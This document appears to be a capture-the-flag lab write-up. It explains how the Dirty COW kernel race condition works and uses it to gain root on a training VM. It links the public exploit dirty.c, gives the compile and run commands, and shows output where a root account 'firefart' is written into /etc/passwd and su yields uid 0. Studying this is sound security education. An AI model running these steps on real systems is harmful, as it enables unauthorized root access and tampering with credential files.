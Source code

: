 # Second Way : Dirty Cow Exploit

Starting on zaz :

````bash
uname -a
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux
````

Looking on https://www.exploit-db.com/ and elsewhere, we find a famous vulnerability for this version of Linux : Dirty COW (Copy-On-Write)


### How Dirty COW Works

First, we create a private copy (mapping) of a read-only file. Second, we write to the private copy. Since it's our first time writing to the private copy, the COW feature takes place. The problem lies in the fact that this write consists of two non-atomic actions:

-locate physical address

-write to physical address

This means we can get right in the middle (via another thread) and tell the kernel to throw away our private copy — using madvise. This throwing away of the private copy results in the kernel accidentally writing to the original read-only file.

How ? Well there’s a lazy “trick” used by the kernel when it creates the copy. The way the kernel acts (when you attempt write through out-of-band memory access such as through proc/self/mem when we request to write is the following :
1. Try to access the address of the original file
2. Get denied because of the flags (indicating a non-authorized attempt to write)
3. Since the access originally happenned (on the virtual memory) on a mapping (thanks flags), request don’t get simply denied : the kernel creates a copy.
4. When copying, the kernel also copy the rights, meaning the user can’t write in it… And some lazy developer, instead of adding a flag, found it simpler to drop the flag indicating an attempt to write and repeat the code at 1., but with the address of the copy rather than the original file.
5. Since the flags don’t indicate anymore a request to WRITE but actually a request to READ, it gets authorized.

Now, what if between 4 and 5 we use madvise to purge the memory at the address of the copy ? Well the second attempt to access fails again, but this time, the error handler of the Kernel, seeing it’s just a READ attempts, defers to the a page linked to the original file. And launch the loop at 1 again. And bam, we write in the original file !

See
https://www.cs.toronto.edu/~arnold/427/18s/427_18S/indepth/dirty-cow/index.html
And the pdf file


### Let’s get to work : 

We download dirty.c here :
https://www.exploit-db.com/exploits/40839

We connect to zaz

````bash
$>gcc -pthread dirty.c -o dirty -lcrypt
$> ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
````
We enter dirtywin

````
$> ./dirty
Please enter the new password:
Complete line:
firefart:fidh7GHB02eRM:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
````

Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'dirtywin'.


DON'T FORGET TO RESTORE! 
````bash
$ mv /tmp/passwd.bak /etc/passwd
````

````bash
zaz@BornToSecHackMe:~$ su
Password:
firefart@BornToSecHackMe:/home/zaz# id
uid=0(firefart) gid=0(root) groups=0(root)
````

Done
